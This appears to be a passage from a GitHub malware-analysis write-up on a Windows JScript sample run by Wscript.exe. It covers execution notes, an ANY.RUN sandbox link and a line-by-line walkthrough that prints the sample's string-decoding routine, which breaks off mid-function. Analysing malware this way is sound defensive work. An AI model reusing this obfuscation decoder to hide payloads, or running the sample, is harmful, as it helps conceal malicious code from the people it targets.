 ## Execution

Important advise: The Host of this malware is [DOWN](https://www.shodan.io/host/104.27.143.209).

This malware just works on Windows Systems and is runned with `Wscript.exe` by default.
>For simulation, we can open a console on browser and instance these functions and variables.
>So, Please don't execute this malware in your computer! :eyes:

Also, this video shows the malware being ran and debugged on `ANY.RUN`, a Interactive Malware Sandbox:

[![](https://i.imgur.com/zdiuyoh.jpg)](https://app.any.run/tasks/d62230b7-3a53-4d57-bd9d-015bc977cc0f/)

## Line-by-line

Looking at the first lines, we can see some declarated variables, most of them already show that it is dangerous, like `runAsAdmin` and `SendInfect`. Others variables show that this script was made by brazilians cuz the following words are in portuguese: `Prosseguir, Marcar, Arrochar` (continue, mark, try harder).

Then, the `BMW` function is the main method that decode these long weird strings to javascript code.

So, the next variable that we need to analyse is `fbU`:

```js
var l = 16,
    u = 28,
    w = 17;
var g = "abcdefghijklmnopqrstuvwxyz";
var z = [76, 86, 81, 72, 80, 71, 75, 60, 88, 82, 70, 90, 94, 74, 87, 85, 79, 66, 65, 89];
var j = [];
for (var x = 0; x < z.length; x++) j[z[x]] = x + 1;
var o = [];
l += 17;
u += 65;
w += 79;
for (var d = 0; d < arguments.length; d++) {
    var s = arguments[d].split(" ");
    for (var v = s.length - 1; v >= 0; v--) {
        var b = null;
        var h = s[v];
        var k = null;
        var c = 0;
        var p = h.length;
        var r;
        for (var e = 0; e < p; e++) {
            var i = h.charCodeAt(e);
            var f = j[i];
            if (f) {
                b = (f - 1) * u + h.charCodeAt(e + 1) - l;
                r = e;
                e++;
            } else if (i == w) {
                b = u * (z.length - l + h.charCodeAt(e + 1)) + h.charCodeAt(e + 2) - l;
                r = e;
                e += 2;
            } else {
                continue;
            }
            if (k == null) k = [];
            if (r > c) k.push(h.substring(c, r));
            k.push(s[b + 1]);
            c = e + 1;
        }
```